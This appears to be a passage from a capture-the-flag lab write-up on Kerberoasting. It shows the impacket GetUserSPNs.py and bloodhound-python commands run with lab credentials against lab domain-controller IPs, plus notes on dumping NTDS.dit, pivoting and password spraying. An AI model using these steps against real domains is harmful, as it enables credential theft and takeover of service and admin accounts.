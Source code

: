 > Need to find kerberoastable service accounts
---
> If the service account is a domain admin you have control similar to that of a golden/silver ticket and can now gather loot such as dumping the NTDS.dit
---
> If the service account is not a domain admin you can use it to log into other systems and pivot or escalate or you can use that cracked password to spray against other service and domain admin accounts, Password reuse is one among the many vulnerability that is common in any network
---

#### Kerberoasting With impackets

```bash
# isntall impackets (https://github.com/SecureAuthCorp/impacket)
┌──(kali㉿kali)-[~/writeups/thm/attacking kerberos]
└─$ GetUserSPNs.py -dc-ip 10.10.129.194 controller.local/Machine1:Password1 -request -outputfile impackets-userspns.out

```

#### Kerberoasting With Bloodhound

- Kerberosting, a popular attack in the kerberos protocol where the user requests a service ticket for any ticket with a registered SPN which can be cracked to obtain the password of the service account
- If a service has a registered SPN, then its kerberostable
- Bloodhound is highly suggested to find accounts that are kerberostable

```bash
# bloodhound.py
bloodhound-python -u Machine1 -p Password1 -d controller.local -ns 10.10.22.147 -c all
# many json files will be loaded
# neo4j installation
wget -O - https://debian.neo4j.com/neotechnology.gpg.key | sudo apt-key add -
echo 'deb https://debian.neo4j.com stable 4.2' | sudo tee -a /etc/apt/sources.list.d/neo4j.list
sudo apt-get update
apt list -a neo4j
sudo apt-get install neo4j=1:4.2.3
# start the neo4j service
sudo neo4j console
# once you start the neo4j service
# http://localhost:7474, provide the username and passowrd neo4j:neo4j
# set your new password ---> (1)

# download bloodhound (https://github.com/BloodHoundAD/BloodHound/releases/tag/4.0.2)
# start the bloodhound
./Bloodhound
# login credentials neo4j:{password you set in (1)}
# now drag and drop the json files to the bloodhound instance
```

- Once the json files loaded into the bloodhound, search for the user machine1

<p align="center">
  <img src="bh-user.png" />
</p>
